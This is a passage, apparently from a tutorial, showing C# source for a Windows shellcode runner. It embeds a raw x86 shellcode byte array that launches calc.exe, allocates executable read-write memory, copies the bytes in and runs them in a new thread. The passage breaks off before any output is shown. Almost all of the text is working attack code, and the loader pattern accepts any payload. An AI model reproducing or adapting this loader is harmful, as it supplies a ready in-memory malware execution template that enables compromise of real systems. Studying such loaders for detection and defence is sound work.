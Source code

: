 ```csharp

    [DllImport("kernel32.dll")]
    public static extern bool VirtualFree(IntPtr lpAddress, int dwSize, UInt32 dwFreeType);

    [DllImport("kernel32.dll")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    [DllImport("kernel32.dll")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);


    static void Main(string[] args)
    {
      byte[] buf = new byte[193] {
      0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
      0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
      0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
      0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
      0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
      0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
      0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
      0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
      0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
      0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
      0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
      0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
      0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };

      int shellcode_size = buf.Length;
      IntPtr init = VirtualAlloc(IntPtr.Zero, shellcode_size, (UInt32)TYPE.MEM_COMMIT, (UInt32)PROTECTION.PAGE_EXECUTE_READWRITE);
      Marshal.Copy(buf, 0, init, shellcode_size);
      IntPtr hThread = IntPtr.Zero;
      UInt32 threadId = 0;
      IntPtr pinfo = IntPtr.Zero;
      hThread = CreateThread(0, 0, (UInt32)init, pinfo, 0, ref threadId);
      WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
    
    public enum TYPE
    {
      MEM_COMMIT = 0x00001000
    }

    public enum PROTECTION
    {
      PAGE_EXECUTE_READWRITE = 0x40
    }
  }
}
```
Compiling and running it gives us:
<br>